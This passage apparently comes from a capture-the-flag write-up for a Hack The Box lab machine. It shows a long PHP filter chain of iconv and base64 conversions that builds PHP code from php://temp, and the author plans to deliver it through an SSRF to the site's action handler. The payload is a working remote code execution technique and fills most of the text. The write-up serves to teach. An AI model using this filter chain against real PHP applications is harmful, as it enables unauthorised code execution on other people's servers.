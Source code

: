     php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.DEC.UTF-16|convert.iconv.ISO8859-9.ISO_6937-2|convert.iconv.UTF16.GB13000|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.iconv.UCS2.UTF-8|convert.iconv.CSISOLATIN6.UCS-4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSA_T500.UTF-32|convert.iconv.CP857.ISO-2022-JP-3|convert.iconv.ISO2022JP2.CP775|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM891.CSUNICODE|convert.iconv.ISO8859-14.ISO6937|convert.iconv.BIG-FIVE.UCS-4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-2.OSF00030010|convert.iconv.CSIBM1008.UTF32BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.CP1163.CSA_T500|convert.iconv.UCS-2.MSCP949|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.8859_3.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSGB2312.UTF-32|convert.iconv.IBM-1161.IBM932|convert.iconv.GB13000.UTF16BE|convert.iconv.864.UTF-32LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L4.UTF32|convert.iconv.CP1250.UCS-2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF16|convert.iconv.ISO6937.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=php://temp



I'm going to use the SSRF to hit
`image.haxtables.htb/actions/action_handler.php` with a `page` parameter
of the filters above. `/index.php` will be appended to the end, but that
doesn't matter, as `php://temp/index.php` will be a valid PHP temp file.
